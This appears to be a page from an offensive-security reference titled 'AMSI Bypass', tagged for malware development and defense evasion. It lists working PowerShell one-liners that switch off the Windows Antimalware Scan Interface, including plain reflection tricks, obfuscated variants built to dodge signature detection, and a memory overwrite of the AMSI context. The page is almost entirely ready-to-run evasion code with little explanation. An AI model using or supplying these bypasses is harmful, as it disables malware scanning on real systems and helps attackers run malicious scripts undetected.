 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - malware-development
  - defense-evasion
credits:
  - Matt Graebers
  - Rasta Mouse
  - Am0nSec
  - Adam Chester
  - Cobbr
  - subat0milk
---
```

# AMSI Bypass

## Matt Graebers

### amsiInitFailed Reflection modification

```powershell
# Author: Matt Graebers

[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static').SetValue($null, $true)
```

Here's an obfuscated one-liner.

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```

Another obfuscated variant.

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```

### Forcing an error

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiSession', 'NonPublic,Static').SetValue($null, $null)
```

